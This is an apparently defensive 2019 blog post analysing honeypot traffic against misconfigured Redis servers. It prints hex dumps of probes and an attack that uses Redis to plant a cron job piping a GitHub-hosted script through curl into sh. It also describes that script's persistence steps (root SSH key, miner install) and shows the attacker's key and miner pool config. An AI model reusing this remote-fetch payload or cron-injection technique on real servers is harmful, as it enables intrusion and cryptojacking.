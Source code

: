 ```yaml
---
title: "Malware Delivered via GitHub"
#author: "Author Name"
description: ""
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2019-10-11T00:00:00-00:00
draft: false
---
```

TCP port 6379 gets a number of strange connections, regularly.  These are targetting misconfigured Redis servers.  The typical connection is something like the following:

```
2a330d0a24360d0a434f4e4649470d0a *3..$6..CONFIG..
24330d0a4745540d0a24310d0a2a0d0a $3..GET..$1..*..
```

```
636f6e66696720676574206469720d0a config get dir..
```

```
696e666f0a info.
```

We don't have Redis experience, but these seem to be just testing whether the target server (a honeypot in this instance...) would respond with configuration info.  Some of these are likely precursors to other attack, while many are certainly just network scanners learning about the Internet.  These examples have the hex dump on the left, and ASCII version on the right, of course.

Many attackers don't bother enumerating their target before throwing an attack.  The one below is like that...

```
2a330d0a24330d0a5345540d0a24370d *3..$3..SET..$7.
0a637261636b69740d0a2439350d0a2f .crackit..$95../
6e2f6e2f6e2a2f31202a202a202a202a n/n/n*/1 * * * *
206375726c202d6673534c2068747470  curl -fsSL http
733a2f2f7261772e6769746875627573 s://raw.githubus
6572636f6e74656e742e636f6d2f3930 ercontent.com/90
31372f6d696e692f6d61737465722f61 17/mini/master/a
372e7368207c73682f6e2f6e2f6e0d0a 7.sh |sh/n/n/n..
```

This attacker is taking the, somewhat brazen, step of distributing their cryptocoin miner via GitHub.  The username is visible in the URL they're specifying, "9017".  This is a new-ish user with three forked projects and the "mini" repo - that's their own.

The `a7.sh` script uninstalls any cryptominers in a set that may already be installed on the target system.  It takes some simple opsec measures for process hiding, installs an iptables rule dropping traffic to "165.225.157.157" (possibly due to this: https://blog.netlab.360.com/old-botnets-never-die-and-ddg-refuse-to-fade-away-en/), installs a public key as authorized for root SSH, and downloads and installs a cryptominer.

The public key is:

```
AAAAB3NzaC1yc2EAAAADAQABAAABAQCxrBrcpNlLpxz9hmeIY57Ia7/yhEmSqmbDA6w4gDcGcgbmbmVOeoBJvcqDiSxBNho9MfilXPpialmLYr0UCfgHxGjQB8jyHWGI2DfbLLDdP6tPfs7r0F08vY7yVkyh39dKliK/Dlx5tIXzI3t1I7FUkvHm4oPWe5S/6snbLRwCKuwT23o/hZoCuKI7+kdxkZ//UsilHFW0JCs1rdjKFtxCz3hxT3xfK8h4urer0B/hbWNap/rTibRq3UqbIXwMYTgTcKESjS8x10UJzDqKIRqMeJWmsPN4+cLkntgnWi9uuWsmYoLHhFQehOlI4oGImG6vb11K+zEtRvg8UAg3wJ4t
```

The cryptominer is this one: https://www.virustotal.com/gui/file/52fdf7efddeb0264a45b73deab08c139da2b7b5fff3b31a98e1cef3edc71ce79/detection

We've reported this to GitHub, but haven't seen action in over 24 hours. 

Some info about the target for this cryptominer was provided.

```json
{
    "algo": "cryptonight",
    "api": {
        "port": 0,
        "access-token": null,
        "id": null,
        "worker-id": null,
        "ipv6": false,
        "restricted": true
    },
...
    "pools": [
                {
            "url": "47.101.30.124:13531",
            "user": "44jyrKqqad7cvtDP44X2CRAXnhbSf8fPc4R25Vc4myt8PC6orsAMFgUK3FQRSkDNXH73Aak6GgVFv4HU8yan1ugB9z7dZFp.v5201",
            "pass": "x",
            "rig-id": null,
            "nicehash": false,
            "keepalive": false,
            "variant": 8,
            "tls": false,
            "tls-fingerprint": null
        },
    ],
...
}
```
